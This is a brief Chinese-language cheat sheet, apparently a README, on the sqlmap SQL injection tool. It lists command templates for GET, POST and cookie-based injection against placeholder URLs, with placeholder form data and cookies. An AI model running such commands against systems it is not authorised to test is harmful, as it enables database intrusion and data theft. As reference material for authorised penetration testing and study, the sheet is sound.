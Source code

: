 Sqlmap
======

注入分法不同，种类不同，来个简单的分类：<br/>
    1.get型：sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
    2.post型: sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
    3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2


